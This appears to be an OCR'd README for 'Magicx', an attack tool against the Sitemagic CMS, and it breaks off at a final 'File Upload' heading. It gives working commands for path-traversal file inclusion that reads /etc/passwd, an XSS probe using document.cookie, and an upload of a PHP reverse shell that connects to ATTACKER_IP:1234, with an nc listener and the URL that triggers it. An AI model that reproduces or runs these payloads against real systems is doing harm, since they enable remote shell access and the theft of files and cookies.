 LFI Exploit : 

./Magicx -u "http://victim.com" -f
The tool cycles through predefined traversal payloads, attempts to include /etc/passwd, and looks for "root:x:0:0" in the response.

File Upload : 

./Magicx -u "http://victim.com" -p
Precondition: Create a file named php-reverse-shell.php in the working directory:


<?php
  set_time_limit(0);
  $sock = fsockopen("ATTACKER_IP", 1234);
  exec("/bin/sh -i <&3 >&3 2>&3");
?>
Run the tool; it will:

Prompt you to ensure php-reverse-shell.php is present.

Upload the file to /sitemagic/files/images/.

Print the upload request’s HTTP code.

To activate the shell, in a separate terminal on your machine:

nc -lvnp 1234
Then visit:

http://victim.com/sitemagic/files/images/php-reverse-shell.php
You should get a root (or www-data) reverse shell.

Example Compile :

gcc Magicx.c -Wall -O2 -fno-pie -no-pie -lcurl -o Magicx
XSS Test

./Magicx -u "http://vulnweb.com/index.php?SMExt=" -x
# Output:
# [!] Testing payload "<script>alert(document.cookie);</script>"
# [!] Possible XSS with payload: "<script>alert(1)</script>"
LFI Test

./Magicx -u "http://vulnweb.com" -f
# Output:
# [+] Test Target URL : http://vulnweb.com/smcmsdemoint/index.php?SMTpl=../../../../etc/passwd%00.png
# [!] Possible LFI success detected in response!
File Upload
